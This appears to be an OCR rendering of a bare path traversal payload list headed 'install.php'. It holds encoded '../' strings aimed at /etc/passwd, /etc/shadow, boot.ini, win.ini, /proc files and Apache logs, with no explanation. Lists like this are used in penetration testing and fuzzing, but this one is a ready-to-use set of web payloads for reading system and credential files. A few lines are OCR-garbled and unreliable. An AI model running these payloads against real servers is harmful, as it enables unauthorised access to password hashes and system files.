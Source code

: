 		install.php

		..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

		..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow

		..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd

		..%2F..%2F..%2F%2F..%2F..%2Fetc/shadow

		..%2F..%2F..%2F%2F..%2F..%2F%2Fvar%2Fnamed

		..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/boot.ini

		/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd

		/..\..\..\..\..\..\winnt\win.ini

		../../windows/win.ini

		..//..//..//..//..//boot.ini

		..\../..\../boot.ini

		..\../..\../..\../..\../boot.ini

		\…..\\\…..\\\…..\\\

		=3D “/..” . “%2f..

		d:\AppServ\MySQL

		c:\AppServ\MySQL

		c:WINDOWS/system32/

		/C:\Program Files\

		/D:\Program Files\

		/C:/inetpub/ftproot/

		/boot/grub/grub.conf

		/proc/interrupts

		/proc/cpuinfo

		/proc/meminfo

		../apache/logs/error.log

		../apache/logs/access.log

		../../apache/logs/error.log

		../../apache/logs/access.log

		../../../apache/logs/error.log

		../../../apache/logs/access.log

		../../../../../../../etc/httpd/logs/acces_log

		../../../../../../../etc/httpd/logs/acces.log
